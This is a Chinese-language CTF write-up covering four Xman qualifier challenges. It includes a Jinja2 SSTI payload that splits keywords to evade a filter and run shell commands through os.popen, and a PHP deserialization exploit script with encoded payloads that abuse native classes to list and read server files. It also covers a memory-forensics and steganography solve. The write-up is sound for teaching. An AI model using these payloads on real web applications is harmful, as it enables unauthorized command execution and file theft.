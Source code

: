 # Nepnep学习报告 web第九周

- Xman选拔赛

## 签到

GET传参a=1, POST传参b=2

![20210806131417519](img/20210806131417519.png)

flag

```
flag{you_are_great!!!}
```

## easyssti

`{{}}`会报错, `{%%}`可以, 测试后感觉需要双写绕过, 但是可以通过jinjia2特性拼接关键字绕过

```
name={% print(lipsum|attr("__globals__")|attr("__geti""tem__")("__buil""tins__")|attr("__geti""tem__")("ev""al")("__im""port__")("o""s")|attr("po""pen")("cat /flag_1s_Hera")|attr("read")()) %}
```

结果如下

![20210806131619069](img/20210806131619069.png)

flag

```
flag{zPkb3tzUW8m0KuSfPoPqgSU37I4ui2hZ}
```

## easyphp

本题的 `__wakeup` 是关键, 可以触发原生类

```php
    public function __wakeup()
    {
        $this->check = new Filter;
        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
            echo new  $this->class ($this->para);
        }
        else
            die('what?Really?');
    } 
```

编写exp

```php
<?php
class XMAN{
//    public $class='FilesystemIterator';
//    public $para=".";  //first
//    public $para="./xxxXXXmMManNNn";  //second
    public $class='SplFileObject';
    public $para="./xxxXXXmMManNNn/f1a4.php";  //third
}

$a  = new XMAN();
echo urlencode(serialize($a));
```

三个payload按顺序打, 就能找到flag了

```
?xtcf=O%3A4%3A%22XMAN%22%3A2%3A%7Bs%3A5%3A%22class%22%3Bs%3A18%3A%22FilesystemIterator%22%3Bs%3A4%3A%22para%22%3Bs%3A1%3A%22.%22%3B%7D
?xtcf=O%3A4%3A%22XMAN%22%3A2%3A%7Bs%3A5%3A%22class%22%3Bs%3A18%3A%22FilesystemIterator%22%3Bs%3A4%3A%22para%22%3Bs%3A16%3A%22.%2FxxxXXXmMManNNn%22%3B%7D
?xtcf=O%3A4%3A%22XMAN%22%3A2%3A%7Bs%3A5%3A%22class%22%3Bs%3A13%3A%22SplFileObject%22%3Bs%3A4%3A%22para%22%3Bs%3A25%3A%22.%2FxxxXXXmMManNNn%2Ff1a4.php%22%3B%7D
```

结果如下

![20210806132052285](img/20210806132052285.png)

flag

```
flag{928erf51ab894a64f7865cf3c2128b34}
```

## try_all_volatility

提示取证, 找图片

```
volatility -f mem imageinfo
```

得知 profile, filescan 找寻图片(试了.png和.jpg发现.png有)

```
volatility -f mem --profile=WinXPSP2x86 filescan | grep ".png"
```

下载图片

```
volatility -f mem --profile=WinXPSP2x86 dumpfiles -Q 0x00000000a3436498 -D ./ -u

```

蓝色照片, 有隐写, zsteg测一下

```
zsteg -a res.png
b1,b,lsb,yx        .. file: Zip archive data, at least v2.0 to extract
zsteg -a res.png -e 'b1,b,lsb,yx'>find
```

360压缩包直接打开里面的 flag.txt

![20210806132722674](img/20210806132722674.png)

flag

```
flag{Waw!_Y0u_D1d!_it_^_^}
```

